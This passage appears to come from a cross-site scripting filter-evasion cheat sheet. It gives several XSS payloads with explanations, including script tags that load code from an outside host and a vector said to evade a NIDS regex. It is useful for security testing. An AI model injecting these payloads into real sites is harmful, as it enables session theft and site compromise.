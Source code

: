 (Submitted by Franz Sedlmaier) 
### No Closing Script Tags 
With Firefox, you don\'t actually need the `\></SCRIPT>` portion of this XSS vector, because Firefox assumes it\'s safe to close the HTML tag and
adds closing tags for you. Unlike the next attack, which doesn\'t affect Firefox, this method does not require any additional HTML below it. You
can add quotes if you need to, but they\'re normally not needed: 
```
     <SCRIPT SRC=http://xss.rocks/xss.js?< B >
```
 
### Protocol Resolution in Script Tags 
This particular variant is partially based on Ozh\'s protocol resolution bypass below, and it works in IE and Edge in compatibility mode.
However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The `.j` is valid,
regardless of the encoding type because the browser knows it in context of a SCRIPT tag:
 
```
    <SCRIPT SRC=//xss.rocks/.j> 
```
 (Submitted by Łukasz Pilorz)
 ### Half Open HTML/JavaScript XSS Vector
 Unlike Firefox, the IE rendering engine (Trident) doesn\'t add extra
data to your page, but it does allow the `javascript:` directive in images. This is useful as a vector because it doesn\'t require a close
angle bracket. This assumes there is any HTML tag below where you are injecting this XSS vector. Even though there is no close `\>` tag the
tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following
network intrusion detection system (NIDS) regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it
doesn\'t require the end `\>`. As a side note, this was also affective against a real world XSS filter using an open ended `<IFRAME` tag
instead of an `<IMG` tag. 
```
     <IMG SRC="`<javascript:alert>`('XSS')"
```
 
### Escaping JavaScript Escapes 
If an application is written to output some user information inside of a JavaScript (like the following:
`<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`) and you want to inject your own JavaScript into it but the server side application escapes
certain quotes, you can circumvent that by escaping their escape character. When this gets injected it will read
`<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the XSS vector to fire. The XSS
locator uses this method: 
```
     \";alert('XSS');//
```
 